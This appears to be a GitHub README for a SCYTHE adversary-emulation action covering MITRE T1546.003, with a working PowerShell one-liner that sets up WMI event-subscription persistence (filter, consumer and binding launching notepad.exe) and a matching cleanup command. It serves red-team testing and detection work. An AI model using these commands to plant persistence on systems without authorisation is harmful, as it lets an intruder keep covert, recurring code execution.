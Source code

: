 # T1546.003 - Windows Management Instrumentation Event Subscription

This SCYTHE Compound Action performs persistance TTPs via Event Triggered Execution: Windows Management Instrumentation Event Subscription and executes through unmanaged PowerShell. 

## Import the Compound Action into SCYTHE
1. From the SCYTHE GUI, click Threat Manager - Migrate Threats
2. Under "Import Threat" click “Choose File” and select the JSON file you downloaded from GitHub
3. Click Import and OK when complete
4. Click Threat Manager - Threat Catalog
5. Find the imported Compound Action and click the tag icon 
6. Tag the MITRE ATT&CK Technique for the Compound Action

## Attack Emulation with SCYTHE
1. Create a new campaign
2. Select the Compound Action for T1546.003

## Manual Emulation
```
$FilterArgs = @{name='SCYTHE-WMIPersistence-Example'; EventNameSpace='root\CimV2'; QueryLanguage="WQL"; Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"}; $Filter=New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs; $ConsumerArgs = @{name='SCYTHE-WMIPersistence-Example'; CommandLineTemplate="$($Env:SystemRoot)\System32\notepad.exe";}; $Consumer=New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs; $FilterToConsumerArgs = @{Filter = [Ref] $Filter;Consumer = [Ref] $Consumer;};$FilterToConsumerBinding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs
```

### Manual Clean Up
```
$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer -Filter "Name = 'SCYTHE-WMIPersistence-Example'"; $EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'SCYTHE-WMIPersistence-Example'"; $FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding" -ErrorAction SilentlyContinue; $FilterConsumerBindingToCleanup | Remove-WmiObject; $EventConsumerToCleanup | Remove-WmiObject; $EventFilterToCleanup | Remove-WmiObject
```

## References
- https://attack.mitre.org/techniques/T1546/003/
- https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1546.003/T1546.003.md